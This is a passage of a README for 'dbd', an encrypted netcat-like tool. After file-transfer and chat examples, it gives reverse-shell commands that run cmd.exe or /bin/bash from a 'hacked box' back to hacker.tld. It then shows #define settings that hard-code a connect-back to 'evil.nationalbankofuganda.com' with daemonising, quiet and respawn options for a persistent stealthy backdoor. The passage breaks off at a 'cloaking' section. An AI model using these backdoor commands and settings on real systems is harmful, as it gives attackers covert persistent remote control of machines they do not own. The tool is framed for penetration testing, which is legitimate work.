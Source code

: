 ###SAMPLE USES

With a little imagination, dbd can be used for many things:

Use dbd to securely transfer files between two networks:

	snafu$ dbd -l -p 12345 -k secret > output.file

	fubar$ cat input.file | dbd -k secret snafu 12345

or from win32:

	C:\somedir>type input.fil | dbd -k secret snafu 12345

Use dbd as a simple (but secure) chat:

	snafu$ dbd -P snafu -Hon fubar 1234

	fubar$ dbd -Pfubar -Hon -l -p 1234

Use dbd as a pen-test backdoor:

	C:\hacked box>dbdbg.exe -r1800 -q -e cmd.exe hacker.tld 443


or under Unix-like OSes:

	root@owned# ./dbd -r1800 -Don -e /bin/bash hacker.tld 993

###HARD CODING OPTIONS

In addition to using command line options, you can hard code variables by using #defines in dbd.h. To do this, set the variables you wish to use as named constants and compile as normal. For example, if you wanted to hard code a dbd executable that connected back to "evil.nationalbankofuganda.com" on port 995, and executed "/bin/bash" you could run:

	root@owned# ./dbd -e /bin/bash evil.nationalbankofuganda.com 995

or using hard-coded #defines, you could edit dbd.h:

```c
#define DOLISTEN 0
#define HOST "evil.nationalbankofuganda.com"
#define PORT 995
#define EXECPROG "/bin/bash"
```

	You can also set respawn and stealth options to help maintain your connection:

```c
#define RESPAWN_ENABLED 1
#define RESPAWN_INTERVAL 900
#define QUIET 1
#define DAEMONIZE 1
```

This will set the connection to daemonize ("melt" in malware terms), never send output to STDOUT, and attempt to respawn the connection every 15 minutes should it ever disconnect from the listener.

###ROMULAN CLOAKING TECHNOLOGY

Now we're getting into the fun stuff. Once you are a mastar at hard-coding options into your backdoor, you can use what is quite possibly the most fun named constant at our disposal: CLOAK. To do this, simply set the value:
